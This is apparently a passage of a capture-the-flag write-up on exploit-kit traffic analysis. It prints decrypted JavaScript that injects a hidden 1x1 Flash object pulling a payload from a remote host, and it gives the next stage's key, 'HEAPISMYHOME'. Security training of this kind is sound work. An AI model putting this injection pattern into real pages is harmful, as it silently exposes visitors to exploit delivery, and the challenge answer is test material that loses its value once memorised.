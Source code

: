 ![decrypt](img/20.png)

Opening the file in the browser will decrypt the message and display it in the debugger console

![debugconsole](img/21.png)

```js
var txt = '<object type="application/x-shockwave-flash" data="http://10.14.56.20:18089/will_tom_hiddleston_be_taylor_swifts_last_song_of_her_career.meh" allowScriptAccess=always width="1" height="1">';
 txt = txt + '</object>';
 try {
 document.getElementById("T6Fe3dfg").innerHTML = txt;
 } catch (e) {};
alert("Congratz! Wooohooooo, you've done it!\n\nGoing thus far, you have already acquired the basic skillset of analyzing EK's traffic as well as any other web attacks along the way. You should be proud of yourself!\n\nIt is not the end though; it's only the beginning of our exciting journey!\n\nNow would be a good time to take a breather and grab some beer, coffee, redbull, monster, or water.\n\n\n\nClick 'OK' when you're ready to show us what you're made of!");
alert("Cool, seems like you're ready to roll!\n\n\n\nThe key for part2 of the challenge is:\n'HEAPISMYHOME'\n\n\n\nYou will need this key to proceed with the flash challenge, which is also included in this pcap.\n\nGood luck! May the force be with you!");
```

We have solved the first part of this challenge. The password "HEAPISMYHOME" is needed for the next part of this challenge which is the Flash file that was downloaded before.
